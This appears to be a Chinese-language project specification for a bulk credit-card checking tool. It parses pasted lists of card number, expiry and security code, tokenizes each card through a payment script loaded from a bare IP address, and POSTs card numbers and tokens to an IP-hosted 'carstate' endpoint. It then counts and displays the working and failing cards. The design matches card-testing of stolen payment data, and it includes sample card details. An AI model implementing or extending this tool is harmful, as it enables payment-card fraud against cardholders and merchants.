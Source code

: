 ### 项目开始
#### 通过用户的输入正则匹配userscannern内容
```
若用户在<textarea></textarea>输入如下内容
5241350000244441|201101|221
5241350000244442|201102|222
5241350000244443|201103|223
将通过正则表达式产生如下let arr =数组【{
          holdername: 'JODI WI',
          cardno: 5241350000244441,           
          expire: 201101,                    
          securitycode: 221
	  	 },
		 {
          holdername: 'JODI WI',
          cardno: 5241350000244442,           
          expire: 201102,                    
          securitycode: 222
	   },
	   {
          holdername: 'JODI WI',
          cardno: 5241350000244443,           
          expire: 201103,                    
          securitycode: 223
	   }】
```
### 项目初始化 获取Token   方法(由服务商提供-程序员只需要调用)
```
    <script src="https://45.138.68.37:39353/down/eJdoqqJzmIEt.js"></script>
	   Multipayment.init(__ID__)
	   let userscanner ={
          holdername: 'JODI WI',
          cardno: 4897882223258590,           
          expire: 202711,                    
          securitycode: 347
	   }
	   Multipayment.getToken(userscanner, 'gmoResponseHandler');
	   //gmoResponseHandler 为回调JSONP函数
	   
	  function gmoResponseHandler(response){
	   if (response.resultCode == '000') {
	   console.log('生成TOKEN成功');
      } else {
        console.log('无法生成TOKEN');
        // Failed to create token for the card
      }}
```
### 请求接口 请求接口之前 确保token已全部生成完成 将上面生成的token 放到数组中 
```
[{access_cardno:'xxxxx'，access_token：'xxxx'},.....................]
```
#### 循环通过数组每一个item来请求接口
##### （http://45.138.68.37:5139/api/user/carstate） POST
```
access_cardno:"账号cardno"
access_token：TOKEN
```
### 每一个请求返回成功后  
1-统计 失败数量 和 成功数量
2-展现 失败卡密 和 成功卡密
注意 每一个 Promise 后都需要统计 ，Promiseall成功后 之后需要弹出成功提示框
# 其他要求
................................................................